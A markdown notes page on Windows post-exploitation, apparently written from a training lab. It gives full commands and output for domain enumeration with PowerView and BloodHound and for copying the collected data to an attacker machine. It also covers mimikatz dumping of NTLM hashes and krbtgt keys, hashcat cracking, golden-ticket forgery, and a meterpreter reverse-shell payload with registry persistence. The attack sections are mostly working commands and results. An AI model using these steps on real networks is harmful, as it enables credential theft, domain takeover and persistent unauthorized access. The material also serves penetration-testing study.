






# Windows Post-exploitation basics

```bash
# RDP
xfreerdp /u:Administrator /p:"P@$$W0rd" /v:10.10.180.147 /cert:ignore

rdesktop -u Administrator  -p "P@$$W0rd" 10.10.180.147:3389

# OR SSH
ssh Administrator@10.10.180.147
```

___

## Enumeration w/ `Powerview`

`Powerview` is a powerful powershell script from powershell empire that can be used for enumerating a domain after you have already gained a shell in the system.

```powershell                                                                                             
(c) 2018 Microsoft Corporation. All rights reserved.

controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> . .\Downloads\PowerView.ps1
```

## Enumerating domain users

```powershell
PS C:\Users\Administrator> Get-NetUser | select cn 

cn                  
--                  
Administrator       
Guest                       
krbtgt                      
Machine-1                   
Admin2                      
Machine-2                   
SQL Service                 
POST{P0W3RV13W_FTW}         
sshd 
```

## Enumerating domain groups

```powershell
PS C:\Users\Administrator> Get-NetGroup -GroupName *admin* 
Administrators                 
Hyper-V Administrators         
Storage Replica Administrators 
Schema Admins                  
Enterprise Admins              
Domain Admins                  
Key Admins                     
Enterprise Key Admins          
DnsAdmins
```

## Enumerating shared folders

```powershell
PS C:\Users\Administrator> Get-WmiObject -class Win32_Share 

Name     Path                                              Description         
----     ----                                              -----------
ADMIN$   C:\Windows                                        Remote Admin
C$       C:\                                               Default share
IPC$                                                       Remote IPC
NETLOGON C:\Windows\SYSVOL\sysvol\CONTROLLER.local\SCRIPTS Logon server share
Share    C:\Shares\Share
SYSVOL   C:\Windows\SYSVOL\sysvol                          Logon server share

```

## Enumearting operating system

```powershell
PS C:\Users\Administrator> Get-NetComputer -FullData | select operatingsystem*

operatingsystem                  operatingsystemversion
---------------                  ----------------------
Windows Server 2019 Standard     10.0 (17763)
Windows 10 Enterprise Evaluation 10.0 (18363)
Windows 10 Enterprise Evaluation 10.0 (18363)
```



___

## Enumeration w/ `Bloodhound`

`Bloodhound` is a graphical interface that allows you to visually map out the network. This tool along with `SharpHound` which similar to `PowerView` takes the user, groups, trusts etc. of the network and collects them into **.json** files to be used inside of `Bloodhound`.

### Installing `Bloodhound`

```bash
apt install bloodhound
```

### Collecting data into json w/ `SharpHound`

```powershell
PS C:\Users\Administrator> . .\Downloads\SharpHound.ps1 
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

----------------------------------------------- 
Initializing SharpHound at 7:34 AM on 6/28/2021                                                                      
-----------------------------------------------                                                                      
   
Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container 
   
[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL     
[+] Cache File not Found: 0 Objects in cache   
[+] Pre-populating Domain Controller SIDS 
Status: 0 objects finished (+0) -- Using 97 MB RAM 
Status: 66 objects finished (+66 8)/s -- Using 102 MB RAM 
Enumeration finished in 00:00:00.6725714                           
Compressing data to C:\Users\Administrator\20210628073430_loot.zip 
You can upload this file directly to the UI 

SharpHound Enumeration Completed at 7:34 AM on 6/28/2021! Happy Graphing! 
```

## Transferring the loot.zip folder to our Attacker Machine

```powershell
PS C:\Users\Administrator> scp .\20210628073430_loot.zip mimiron@10.11.35.147:/tmp 
mimiron@10.11.35.147's password: 
20210628073430_loot.zip     100% 9559   298.7KB/s   00:00
```

## Mapping the network w/ `Bloodhound`

```bash
# Open a terminal and type the following:
neo4j console # default credentials -> neo4j:neo4j
# In another terminal, open bloodhound:
bloodhound 
```

- Drag and drop the loot.zip folder into Bloodhound to import the .json files

- Simple query: find all domain admins








___

## `mimikatz` 

`mimikatz` is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network.

```cmd
PS C:\Users\Administrator\Downloads> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51              
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                               
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                    
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/ 
```

- [`privilege::debug`](https://github.com/gentilkiwi/mimikatz/wiki/module-~-privilege) (to be executed as an administrator) ask for **SeDebugPrivilege** in order to interact with the LSASS process:

```cmd
mimikatz # privilege::debug 
Privilege '20' OK 
```

### Dumping NTLM hashes and cracking them using `hashcat`

- `lsadump::lsa /patch` dumps the NTLM password hashes:


```cmd
mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f4 (500)                                         
User : Administrator                                          
LM   :                                                        
NTLM : 2777b7fec870e04dda00cd7260f7bee6                       
                                                              
RID  : 000001f5 (501)                                         
User : Guest                                                  
LM   :                                                        
NTLM :                                                        
                                                              
RID  : 000001f6 (502)                                         
User : krbtgt                                                 
LM   :                                                        
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :  
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :  
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : bad1c9ba6b62479ab054c300c9adcbf5

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```

- Cracking hashes w/ `hashcat`

```bash
$ cat > ntlm-hashes.txt                                                                                      
2777b7fec870e04dda00cd7260f7bee6         
5508500012cc005cf7082a9a89ebdfdf
64f12cddaa88057e06a81b54e73b949b
2b576acbe6bcfda7294d6bd18041b8fe
c39f2beb3d2ec06a62cb887fb391dee0
f4ab68f27303bcb4024650d8fc5f973a
c4b0e1b10c7ce2c4723b4e2407ef81a2
2777b7fec870e04dda00cd7260f7bee6
bad1c9ba6b62479ab054c300c9adcbf5
3c2d4759eb9884d7a935fe71a8e0f54c
7d33346eeb11a4f12a6c201faaa0d89a^C

$ hashcat -m 1000 ntlm-hashes.txt $ROCKYOU --show

64f12cddaa88057e06a81b54e73b949b:Password1
c39f2beb3d2ec06a62cb887fb391dee0:Password2
f4ab68f27303bcb4024650d8fc5f973a:MYpassword123#
c4b0e1b10c7ce2c4723b4e2407ef81a2:Password3
2777b7fec870e04dda00cd7260f7bee6:P@$$W0rd
```

> **Note**: Cracking these hashes are note necessary if we can perform a Pass-The-Hash attack. 



___

### Golden Ticket 

We will first dump the hash and sid of the **krbtgt** user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

#### Dump hash and sid of krbtgt

- `lsadump::lsa /inject /name:krbtgt` &rarr; dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket:

```cmd
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f6 (502)                                         
User : krbtgt                                                 
                                                              
 * Primary                                                    
    NTLM : 5508500012cc005cf7082a9a89ebdfdf 
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea 
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27 
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
    28  ca006400aefe845da46b137b5b50f371
    29  15a607251e3a2973a843e09c008c32e3 

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4 
```

#### Create a Golden Ticket

1) `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`

```cmd
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfd
f /id:500
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 6/28/2021 9:43:47 AM ; 6/26/2031 9:43:47 AM ; 6/26/2031 9:43:47 AM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

2) Open a new command prompt with elevated privileges to all machines with `misc::cmd`:

```cmd
mimikatz # misc::cmd 
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF7609443B8
```

3) Within this new command prompt, access other machines:


___

## Enumeration w/ Server Manager

**Server Manager** is a built in windows feature. If we already have access to a domain admin account, then we can use it to change trusts, add or remove users, look at groups. etc.



___

## Maintaining Access

> TODO: look at advanced backdoors and rootkits, adding users and so on.

### Persistence metasploit module

1) Generate a basic windows meterpreter reverse tcp shell

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=$(vpnip) LPORT=5555 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

2) Transfer the payload from your attacker machine to the target machine:

```bash
$ scp shell.exe Administrator@10.10.245.132:
Administrator@10.10.245.132's password: 
shell.exe       100%   72KB 559.7KB/s   00:00
```

3) Run a listener:

```bash
$ msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.11.35.147
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.35.147:5555 
```

4) Execute `shell.exe` from Windows machine and go back to your `msfconsole` then background it:

```
[*] Sending stage (175174 bytes) to 10.10.245.132
[*] Meterpreter session 1 opened (10.11.35.147:5555 -> 10.10.245.132:49869) at 2021-06-28 18:45:10 +0200

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) >
```

5) Use the persistence module:

```bash
msf6 exploit(multi/handler) > use exploit/windows/local/persistence
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence) > set session 1
session => 1
msf6 exploit(windows/local/persistence) > run

[*] Running persistent module against DOMAIN-CONTROLL via session ID: 1
[+] Persistent VBS script written on DOMAIN-CONTROLL to C:\Users\Administrator\AppData\Local\Temp\Yukvpk.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\sQMgKDu
[+] Installed autorun on DOMAIN-CONTROLL as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\sQMgKDu
[*] Clean up Meterpreter RC file: /root/.msf4/logs/persistence/DOMAIN-CONTROLL_20210628.4733/DOMAIN-CONTROLL_20210628.4733.rc
```

___

## Useful links

- [PowerView-3.0-tricks.ps1](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
- [CONF@42 - Mimikatz - Mémoire Windows](https://youtu.be/quIeOjjRT64)
- [Gentilkiwi - Golden Ticket](https://blog.gentilkiwi.com/securite/mimikatz/golden-ticket-kerberos)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SharpHound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)
- [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- <https://blog.harmj0y.net/>
- <https://adsecurity.org/?page_id=1821>
- <https://metasploit.help.rapid7.com/docs/about-post-exploitation>
- <http://www.pentest-standard.org/index.php/Post_Exploitation>
- <https://offsec.red/mimikatz-cheat-sheet/>
